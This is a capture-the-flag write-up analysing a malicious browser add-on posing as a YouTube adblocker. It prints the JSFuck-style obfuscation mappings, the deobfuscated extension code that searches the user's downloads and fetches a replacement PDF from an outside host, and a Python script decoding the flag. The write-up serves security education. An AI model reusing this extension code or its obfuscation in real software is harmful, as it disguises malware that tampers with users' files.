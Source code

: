 # Addon

> Points: 6

> URL: https://drive.google.com/file/d/1YiA3N38praUVqPlTjB9L1amt_a8PezR8/view?usp=sharing </br>
Our Security Operations Center (SOC) has identified a malicious browser add-on distributed via zip file. It purports to be an adblocker capable of bypassing YouTube's new anti-adblock mechanism, but it appears to perform a different function. Your task is to conduct an analysis of the add-on.

Downloaded `addon.zip` contains following files:

```
  Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:29:34 ....A      2074696      2075331  addon/icon.png
2024-03-31 22:53:52 ....A          316          192  addon/manifest.json
2024-03-31 22:35:46 ....A          323          213  addon/popup.html
2024-03-31 22:45:02 ....A        19125         1528  addon/popup.js
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:53:52            2094460      2077264  4 files

```

After looking at `popup.js` we see it's heavily obfuscated:

![](img/20240614162421.png)

We tried various online deobfuscation tools but results were no good, so we started with manual deobfuscation. We made following replacements at first step:

```
가 = (!![] + [])[0] + ([] + {})[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[9] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[5] + ([][
    []
] + [])[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[14];
나 = ([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1];

다 = (![] + [])[0] + (![] + [])[2] + (![] + [])[1] + (!![] + [])[0];

あ = (![] + [])[1];

い = ([] + {})[2];

う = (!![] + [])[1];

$ = (![] + [])[3];

_ = (!![] + [])[3];

가가 = ([] + {})[5];

가나 = ([][
    []
] + [])[0];
가다 = ([][
    []
] + [])[2];

가あ = ([][
    []
] + [])[5];

가い = ([][
    []
] + [])[1];

가う = ([] + {})[1];

가$ = (![] + [])[0];

가_ = (1 / 0 + [])[0];

나가 = (1 / 0 + [])[7];

나나 = (![] + [])[2];

나다 = (!![] + [])[0];
```

Next steps was following substitutions:

```
(25)[toString](30) = p
((0)[constructor][])[11] = m
(17)[toString](20) = h
(32)[toString](33) = w
(20)[toString](21) = k
[][flat][constructor](return unescape("%0a"))() = new line
(26)[toString](30) = q
(([][])[constructor][])[14] = g
(([][])[constructor][])[9] = s
([][flat][])[23] = v
(33)[toString](34) = x
[][flat][constructor](return unescape("%46"))() = F
[][flat][constructor](return unescape("%4c"))()= L
[][flat][constructor](return unescape("%4d"))()= M
[][flat][constructor](return escape(([]+[])["sub"]()))()[8] = e
[][flat][constructor](return escape(([]+[])["sub"]()))()[2] = C
[][flat][constructor](return escape([]["flat"]))() = D
[48]([]{})[8] = O
((![])[constructor][])[9] = B
([]{})[3] = j
```

After which we got following code:

```
document.addeventListener(""DOMContentLoaded"", function() {  
    var queryInfo = {    orderBy: [""-startTime""],    limit: 10  };
    chrome.downloads.search(queryInfo, function(results) {      
        var downloaded = false;
        results.foreach(function(item) {
            if (item.filename.includes(".pdf") && !item.filename.includes("(") && !downloaded) {        
                downloaded = true;
                let s = [    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,    0x81, 0xa5, 0x38];
                for (let m = 0; m < s.length; ++m) {    
                    let c = s[m];
                    c = (c >> 1) | (c << 7);
                    c = ~c;
                    c += 0x37;
                    c ^= m;
                    c &= 0xFF;
                    s[m] = c;
                }          
                var name = item.filename.split("\\\\").slice(-1)              
                if (string.fromCharCode.apply(null, s.map(byte => byte & 0xFF)).includes("s")){                  
                    chrome.downloads.download({      
                    url: "http://int3.sk/bf5075abd15e3d41e2d3b78b28199eab/temp.pdf",filename: name.join()          
                    });
                }
            }
        });
    });
});
```
> NOTE: On discord channel in the CyberGame Write-ups forum, there was great way how to obfuscate js code:
```
document = {}
document.addEventListener = function (a, b) {
    console.log(a);
    console.log(b.toString());
}
// paste original popup.js
```

We see that there is variable `s` that looks suspicious and probably is obfuscated flag. We asked GhatGPT to help us decode the string which it did in nice explanative way with python code which after execution we got the flag:

```
# Given byte array
s = [
    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,
    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,
    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,
    0x81, 0xa5, 0x38
]

# Decode the array
for m in range(len(s)):
    c = s[m]
    c = (c >> 1) | (c << 7)  # Rotate right by 1
    c = ~c  # Invert bits
    c += 0x37  # Add 0x37
    c ^= m  # XOR with index m
    c &= 0xFF  # Ensure 8-bit value
    s[m] = c

# Print the decoded array
decoded_string = ''.join(chr(c) for c in s)
print(f'{decoded_string}')
```

```
$ python popup_decode.py
SK-CERT{n07_4dbl0ck_4dd0n}
```

> flag: `SK-CERT{n07_4dbl0ck_4dd0n}`




